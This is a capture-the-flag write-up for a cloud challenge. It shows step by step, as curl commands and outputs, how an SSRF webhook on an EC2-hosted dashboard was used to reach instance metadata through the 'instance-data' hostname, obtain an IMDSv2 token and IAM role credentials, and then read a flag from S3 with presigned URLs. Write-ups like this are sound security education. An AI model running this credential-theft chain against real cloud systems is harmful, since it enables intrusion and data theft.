



# [06] THE CLOUD

## Challenge

An internal DevOps monitoring dashboard was deployed with debug endpoints enabled on a public EC2 instance.

The goal was to retrieve the flag from the S3 bucket used by the platform team.

## Flag

```text
FAM{cl0ud_ssrf_imds_1894d750213a}
```

## Summary

The dashboard exposed runtime configuration and an internal webhook endpoint. The config revealed that storage used an S3 bucket and a player-specific prefix. The webhook accepted a target `url` and fetched AWS/internal URLs from the EC2 instance.

Direct requests to the metadata IP were blocked, but the metadata service hostname `instance-data` was accepted. IMDSv2 was enabled, so a token had to be created first using a forwarded metadata token TTL header. With that token, the IAM role credentials were read from instance metadata.

The bucket denied unsigned requests. A SigV4 presigned S3 URL was generated with the temporary role credentials, then sent through the webhook so the S3 request originated from the instance side. Listing the assigned prefix revealed `players/350/flag.txt`, which contained the flag.

## Steps

### 1. Review the dashboard routes

The home page listed the available routes:

```bash
curl -sS http://3.110.94.3/
```

Important routes:

```text
/metrics/system
/metrics/config
/metrics/endpoints
/internal/webhook
```

### 2. Read runtime configuration

```bash
curl -sS http://3.110.94.3/metrics/config
```

The config exposed the storage target:

```text
bucket: fam-ctf-cloud-challenge
prefix: players/350
region: ap-south-1
identity provider: ec2-instance-metadata
```

It also showed that the app used an instance role for storage access.



### 3. Check the webhook behavior

```bash
curl -i -X POST 'http://3.110.94.3/internal/webhook'
```

The response showed the expected parameter:

```text
POST /internal/webhook?url=<target>
```

Direct metadata IP access was blocked:

```bash
curl -i -X POST \
  'http://3.110.94.3/internal/webhook?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/'
```

The response hinted that the instance metadata service had a hostname.

### 4. Use the metadata hostname with IMDSv2

Create an IMDSv2 token through the webhook:

```bash
TOKEN=$(curl -sS -X PUT \
  'http://3.110.94.3/internal/webhook?url=http://instance-data/latest/api/token' \
  -H 'X-aws-ec2-metadata-token-ttl-seconds: 21600' \
  | python3 -c 'import sys,json; print(json.load(sys.stdin)["body"])')
```

Read the IAM role name:

```bash
ROLE=$(curl -sS \
  'http://3.110.94.3/internal/webhook?url=http://instance-data/latest/meta-data/iam/security-credentials/' \
  -H "X-aws-ec2-metadata-token: ${TOKEN}" \
  | python3 -c 'import sys,json; print(json.load(sys.stdin)["body"].strip())')

echo "$ROLE"
```

Role:

```text
ctf-cloud-player-350
```



Read the temporary role credentials and save them to a local temporary file:

```bash
curl -sS \
  "http://3.110.94.3/internal/webhook?url=http://instance-data/latest/meta-data/iam/security-credentials/${ROLE}" \
  -H "X-aws-ec2-metadata-token: ${TOKEN}" \
  | tee /tmp/cloud_creds_response.json
```

### 5. Sign the S3 request

The bucket rejected unsigned requests, so the S3 request was signed with the temporary role credentials.

Generate a presigned URL to list the player prefix:

```bash
python3 evidence/s3_presign.py \
  --creds-file /tmp/cloud_creds_response.json \
  --bucket fam-ctf-cloud-challenge \
  --region ap-south-1 \
  --prefix players/350/
```

Send the presigned URL through the webhook:

```bash
SIGNED_URL='<presigned-list-url>'
ENCODED=$(python3 - <<'PY' "$SIGNED_URL"
import sys, urllib.parse
print(urllib.parse.quote(sys.argv[1], safe=''))
PY
)

curl -sS "http://3.110.94.3/internal/webhook?url=${ENCODED}"
```

The listing showed:

```text
players/350/flag.txt
```

### 6. Read the flag object

Generate a presigned URL for the object:

```bash
python3 evidence/s3_presign.py \
  --creds-file /tmp/cloud_creds_response.json \
  --bucket fam-ctf-cloud-challenge \
  --region ap-south-1 \
  --key players/350/flag.txt
```

Request it through the webhook:

```bash
SIGNED_URL='<presigned-object-url>'
ENCODED=$(python3 - <<'PY' "$SIGNED_URL"
import sys, urllib.parse
print(urllib.parse.quote(sys.argv[1], safe=''))
PY
)

curl -sS "http://3.110.94.3/internal/webhook?url=${ENCODED}"
```

Response:

```json
{"body":"FAM{cl0ud_ssrf_imds_1894d750213a}","status":200,"url":"<redacted-presigned-s3-url>"}
```



## Evidence Files

- `evidence/dashboard_home.html`
- `evidence/status.json`
- `evidence/metrics_system.json`
- `evidence/metrics_config.json`
- `evidence/metrics_endpoints.json`
- `evidence/webhook_empty_response.txt`
- `evidence/webhook_imdsv2_token_put_forwarded_header.txt`
- `evidence/webhook_imdsv2_role_get.txt`
- `evidence/webhook_imdsv2_credentials.txt`
- `evidence/s3_unsigned_list_attempt.txt`
- `evidence/s3_list_players_350.json`
- `evidence/s3_flag_object.json`
- `evidence/s3_presign.py`
